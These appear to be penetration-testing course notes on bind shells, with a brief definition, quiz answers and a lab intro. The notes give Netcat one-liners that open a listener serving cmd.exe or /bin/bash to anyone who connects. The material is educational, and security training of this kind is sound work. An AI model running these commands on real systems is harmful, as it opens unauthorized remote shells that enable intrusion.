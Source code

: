 - Remote Shell
- Allows execution of commands
- Listener is on the target system
- Produces some type of shell when there's a connection


Setup listener that creates a shell upon connection on windows
```
nc -nvlp <port>  -e cmd.exe
```

Setup listener on linux that creates a bin/bash shell upon connection
```
nc -nvlp <port> -c /bin/bash
```
## Quiz

A bind shell is a type of remote shell where the attacker connects to a listener on the target system.

	TRUE
	
Which one of the following Netcat commands can be used to setup a listener that executes cmd.exe when a client connects to the listener?

	nc.exe -nvlp 1234 -e cmd.exe
## Lab

In this lab you will learn how to setup a bind shell with Netcat.

A bind shell is a type of remote shell where the attacker connects to a listener on the target system. In order for this to work a listener needs to be running on the target system so that the attacker can connect to it and consequently obtain a remote shell.

This type of shell is not preferred as the attacker directly connects to the target system and in most cases, ingress traffic is always blocked or flagged as suspicious. Nonetheless, it is very important to learn how bind shells work and how they can be setup with Netcat.

```
target ip: 10.4.22.69
local ip: 10.10.22.2
```